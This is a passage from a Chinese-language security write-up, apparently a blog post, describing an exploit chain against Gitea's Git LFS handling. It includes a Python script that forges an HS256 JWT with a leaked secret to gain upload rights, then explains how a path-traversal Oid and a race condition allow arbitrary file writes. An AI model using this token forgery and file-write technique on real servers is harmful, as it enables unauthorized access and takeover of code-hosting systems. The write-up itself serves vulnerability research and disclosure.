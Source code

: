 ```python
import jwt
import time
import base64


def decode_base64(data):
    missing_padding = len(data) % 4
    if missing_padding != 0:
        data += '='* (4 - missing_padding)
    return base64.urlsafe_b64decode(data)


jwt_secret = decode_base64('oUsPAAkeic6HaBMHPiTVHxTeCrEDc29sL6f0JuVp73c')
public_user_id = 1
public_repo_id = 1
nbf = int(time.time())-(60*60*24*1000)
exp = int(time.time())+(60*60*24*1000)

token = jwt.encode({'user': public_user_id, 'repo': public_repo_id, 'op': 'upload', 'exp': exp, 'nbf': nbf}, jwt_secret, algorithm='HS256')
token = token.decode()

print(token)
```

其中，`jwt_secret`是第二个漏洞中读取到的密钥；`public_user_id`是项目所有者的id，`public_repo_id`是项目id，这个项目指LFS所在的项目；`nbf`是指这个密文的开始时间，`exp`是这个密文的结束时间，只有当前时间处于这两个值中时，这个密文才有效。

[![f5d88f3c-f91d-426b-a9a7-0249f7674c1d.png](https://www.leavesongs.com/media/attachment/2018/07/14/adea0396-cf45-4686-802d-64afd09c8b37.21979feb0f08.png)](https://www.leavesongs.com/media/attachment/2018/07/14/adea0396-cf45-4686-802d-64afd09c8b37.png)

## 漏洞四、利用条件竞争，写入任意文件

现在，我们能构造JWT的密文，即可访问LFS中的写入文件接口，也就是PutHandler。

PUT操作主要是如下代码：

[![carbon_4.png](https://www.leavesongs.com/media/attachment/2018/07/14/30029c83-961b-45a7-994f-5fb09608f9cd.c26234a24496.png)](https://www.leavesongs.com/media/attachment/2018/07/14/30029c83-961b-45a7-994f-5fb09608f9cd.png)

整个过程整理如下：

1. `transformKey(meta.Oid)` + .tmp 后缀作为临时文件名
2. 如果目录不存在，则创建目录
3. 将用户传入的内容写入临时文件
4. 如果文件大小和`meta.Size`不一致，则返回错误（`meta.size`是第一步中创建LFS时传入的Size参数）
5. 如果文件哈希和`meta.Oid`不一致，则返回错误
6. 将临时文件重命名为真正的文件名

因为我们需要写入任意文件，所以Oid一定是能够穿越到其他目录的一个恶意字符串，而一个文件的哈希（sha256）却只是一个HEX字符串。所以上面的第5步，一定会失败导致退出，所以不可能执行到第6步。也就是说，我们只能写入一个后缀是“.tmp”的临时文件。
